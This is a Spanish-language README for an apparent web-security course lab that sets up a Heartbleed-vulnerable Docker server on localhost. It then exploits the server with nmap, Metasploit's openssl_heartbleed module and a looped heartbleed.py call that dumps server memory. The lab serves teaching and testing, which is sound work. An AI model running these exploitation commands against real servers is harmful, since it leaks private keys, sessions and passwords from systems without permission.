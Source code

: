 # Seguridad de Aplicaciones Web

Una vez clonado, actualizar los submodulos de los que depende la prueba de concepto

```bash
git submodule init
git submodule update
```

## Pasos para levantar el entorno de pruebas

Construir la imagen en Docker:

```bash	
docker build -t heartbleed-image-websegapp .
```

Crear un contenedor en base a la imagen abriendo los puertos y exponiendo los volumenes internos:

```bash
docker run  -p 80:80 -p 443:443 -e LOG_STDOUT=true -e LOG_STDERR=true -e LOG_LEVEL=debug -v ${PWD}/data/PHP-Login:/var/www/html  -v ${PWD}/data/mysql:/var/lib/mysql  --name heartbleed-server heartbleed-image-websegapp
```

Instalar el sistema via explorador https://localhost/install y hacerlo en modo 'Automatico':

```
	- Database Hostname: localhost
	- DB User: phplg
	- DB Password: password1234
	- DB Name: phpLogin
	- DB Table Prefix: phplg
	- Root Install Path: /var/www/html
	- Base Url: https://localhost/
	- Superadmin Username: admin
	- Superadmin Email: a@a.com
	- New Password: password1234
	- Repeat Password: password1234
```
## Verificar si el servidor es vulnerable 

Con NMAP:

```bash
nmap -sV –script=ssl-heartbleed
```

Con MSF:
```bash
msfconsole
```

Usamos el plugin para explotar la vulnerabilidad:
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
```

Establecer el servidor victima y ponemos en modo dump el plugin:

```bash
set RHOSTS localhost
set verbose true
```

Explotamos la vulnerabilidad:

```bash
exploit
```

## Hacer dump de la memoria del servidor HTTP vulnerable:

Requisito: tener instalado python 2.7

Creamos el archivo donde vamos a hacer dump del servidor y vemos que va pasando en vivo:

```bash
truncate -s0 /tmp/heartbleed.out && tail -f /tmp/heartbleed.out
```

Ejecutamos el exploit cada un segundo y volcamos el contenido:

```bash
while true; do python heartbleed.py localhost >> /tmp/heartbleed.out; sleep 1; done
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

